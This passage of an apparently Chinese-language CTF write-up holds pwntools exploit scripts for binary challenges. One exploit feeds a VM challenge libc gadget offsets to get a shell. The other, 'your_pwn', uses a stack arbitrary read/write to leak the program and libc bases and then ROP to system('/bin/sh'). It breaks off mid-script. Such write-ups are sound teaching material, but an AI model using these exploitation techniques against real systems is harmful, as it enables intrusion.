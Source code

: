 ```python
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

bss = 0x4040D0

ru('Your program name:')
sl('Ch4r1l3')
ru('Your instruction:')
sl('push push save push push load push add push save')
ru('data:')

data = [bss,-3,-22,-22,(0xf1147-0x6F690),-22]

s = ''
for i in data:
    s += str(i)+' '

sl(s)

p.interactive()

```

### your_pwn

有一个栈上的任意地址读写。

可以把当前的ebp+8读出来，就可以知道当前的程序的基址

把ebp+8的地方改成rop的地址，然后跳转call puts打印puts的got地址，就可以得到libc的基址，从而算出sys、binsh的基址。

然后再重复一遍以上操作，把ebp+8改成rop并跳转system('/bin/sh')就可以getsell了

```python
from pwn import *

debug = 0
if debug:
	p = process('./pwn1')
else:
	p = remote('', 57856)

context(log_level = 'debug')

def padd(times):
	for i in range(times):
		p.recvuntil('index')
		p.sendline('1')
		p.recvuntil('(hex)')
		p.sendline('1')

def Modify(pos, data):
	for i in range(pos,pos+8):
		p.recvuntil('index')
		p.sendline(str(i))
		p.recvuntil('(hex) ')
		p.sendline(str(data&0xff))
		data /= 0x100

p.recvuntil('name:')
```
